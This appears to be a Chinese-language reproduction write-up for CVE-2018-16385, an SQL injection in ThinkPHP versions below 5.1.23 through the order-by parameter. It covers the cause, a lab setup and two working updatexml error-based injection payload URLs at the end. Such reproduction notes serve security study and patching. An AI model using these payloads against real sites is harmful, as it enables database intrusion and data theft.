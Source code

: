 （CVE-2018-16385）Thinkphp 5.1.x SQL注入
========================================

一、漏洞简介
------------

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order
by
后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

二、漏洞影响
------------

ThinkPHP \< 5.1.23

三、复现过程
------------

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

    curl -sS https://getcomposer.org/installer | php

    mv composer.phar/usr/local/bin/composer

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

    composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![](./.resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId27.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![](./.resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId29.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![](./.resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId31.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的\$order需要是一个数组。

2.\$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 \` 。

最终Payload构造如下：

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1

或

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=
